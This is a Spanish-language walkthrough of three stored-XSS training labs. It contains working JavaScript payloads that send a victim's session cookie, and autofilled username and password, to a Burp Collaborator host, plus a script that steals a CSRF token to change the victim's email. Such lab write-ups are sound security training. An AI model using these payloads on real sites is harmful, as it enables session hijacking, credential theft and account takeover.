

# Laboratories cross-site scripting


## Lab: Exploiting cross-site scripting to steal cookies

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

Analizando la web podemos ver:
- disponemos de nuestra cookie
- Tenemos un formulario de logueo sin la opción de forget password
- comentarios


La idea es que nos manden a burpcollaborator la cookie quien lea el post. Se sobre entiende que tendrán una acción para ver los comentarios. Una vez robada la cookie tendremos que susituir nuestra cookie.

1. Probamos si es inyectable un javascript
Insertamos en un comentario esto, para ver si nos carga a nosotros ese javascript
```js
<script>
alert();
</script>
```


Es posible inyectar un script, no lo tienen controlado.

2. abrimos burpcollaborator y copiamos la url
   
La idea es que nos manden a nuestra burpcollaborator . Buscando en google encontramos esto

```js
// Ejemplo implementando el metodo POST:
async function postData(url = '', data = {}) {
  // Opciones por defecto estan marcadas con un *
  const response = await fetch(url, {
    method: 'POST', // *GET, POST, PUT, DELETE, etc.
    mode: 'cors', // no-cors, *cors, same-origin
    cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
    credentials: 'same-origin', // include, *same-origin, omit
    headers: {
      'Content-Type': 'application/json'
      // 'Content-Type': 'application/x-www-form-urlencoded',
    },
    redirect: 'follow', // manual, *follow, error
    referrerPolicy: 'no-referrer', // no-referrer, *no-referrer-when-downgrade, origin, origin-when-cross-origin, same-origin, strict-origin, strict-origin-when-cross-origin, unsafe-url
    body: JSON.stringify(data) // body data type must match "Content-Type" header
  });
  return response.json(); // parses JSON response into native JavaScript objects
}

postData('https://example.com/answer', { answer: 42 })
  .then(data => {
    console.log(data); // JSON data parsed by `data.json()` call
  });
```
Parece que al menos hay que enviar el post y el modo para decir que es otro sitio.
Lo reducimos a este tipo y probamos, si no funciona vamos añadiendo cosas.
```js
fetch(url, {
    method: 'POST', // *GET, POST, PUT, DELETE, etc.
    mode: 'cors', // no-cors, *cors, same-origin
    body: document.cookie
    });
```


```js
<script>
fetch(http://ywyrjloefo180531g2xi7pzk2b83ws.burpcollaborator.net, {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

>Yo creo que está bien pero no me devuelve nada. Voy a ver los errores, me temo que las pruebas iniciales lo han estropeado y lo tendré que intentar en otro post, pero es posible que o falte el https o puede también que falte algun argumento como credentials.


Probando con https


Ok el problema era las '' en la url, quedaría así

```js
<script>
fetch('https://ywyrjloefo180531g2xi7pzk2b83ws.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

```

Ahora en burpcollaborator vamos a la pestaña request to collaborator en la petición que nos dió.


Vamos a la petición de login y enviamos a repeater, ahí hay una sesion y la cambiamos por la que hemos obtenido . Luego enviamos y resuelto.


## Lab: Exploiting cross-site scripting to capture passwords

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

La idea es obtener la clave del usuario y la contraseña porque tiene un auto rellenador de contraseñas

Probamos si se puede insertar un javascript
```js
<script>
alert();
</script>
```

Al ver que se puede mandamos a burpcolaborator lo siguiente. Básicamente crea un input username y otro password, en el momento en que el tamaño de la contraseña tenga un tamaño lo envia. Tiene que tener un autocmpletador de claves.. 

>Es importante comprender que no lleva la etiqueta script porque sino no sale visualmente a la victima y queremos que si se vea.

```js
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://r1tymfpnmfosqa4n007uka30vr1ip7.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
> Importante si no funciona cerrar burpcollaborator y volver a poner la url nueva





## Lab: Exploiting XSS to perform CSRF
This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: wiener:peter

La idea aquí es que obtener el csrf. Para ello lo buscamos con burpsuite. Lo encontramos en change/mail

Tenemos que poner un comentario en el que lo primero que haga sea en trar en /my-account, luego cambiar el mail por el nuestro para que nos haga que nuestro mail sea el correspondiente al de la victima para poder tener sus credenciales.

Hemos actualizado nuestro correo a lala@lala.net
1. Creamos un request get a my-account
2. Una vez hecho esto buscamos donde ponga csrf


3. Una vez buscado  cogemos todo la primera cadena que venga detras de value=
4. Creamos una petión post a change mail con el token de la victima y nuestro mail.

```js
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=lala@lala.net')
};
</script>
```